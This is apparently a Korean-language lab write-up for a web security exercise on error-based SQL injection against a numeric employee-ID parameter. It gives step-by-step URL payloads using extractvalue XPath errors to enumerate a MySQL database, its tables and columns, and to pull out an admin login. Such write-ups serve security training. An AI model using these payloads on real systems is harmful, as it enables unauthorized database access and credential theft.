 ## Exercise2
| 이 문제는 매개변수값에 홑따옴표(')를 제출하면 데이터베이스 구문 오류 메시지를 표시하지만 문제1과 동일한 방법을 이용하면 원하는 데이터를 추출할 수 없습니다. 이 문제는 매개변수가 데이터베이스의 숫자 타입 컬럼과 연결되어있음을 유의하세요. 

1. 홑 따옴표 없이 산술식을 이용하여 초기 매개변수 3 값과 동일한 값 제출
```bash
https://.../sqli_err_ex2.php?emp_no=4-1

Employee Info
ID	Name	Gender	Birthday
3	Faye Valentine	F	1944-02-14

동일한 값 출력 -> SQL Injection에 취약하다고 판단됨.
```

2. XPath 기법을 이용해 웹 애플리케이션과 통신 중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::mydb'
```

3. 데이터베이스명을 찾았으니, 테이블명을 열거
```bash

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::users'
```

4. 칼럼명 추출
```bash
# user_id
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%201,1)))--

Employee Info

Error: XPATH syntax error: '::user_id'

# password
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%203,1)))--

Error: XPATH syntax error: '::password'
```

5. 데이터 추출
```bash
# admin

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20mydb.users%20LIMIT%200,1)))--

Employee Info

Error: XPATH syntax error: ':admin:pass'
```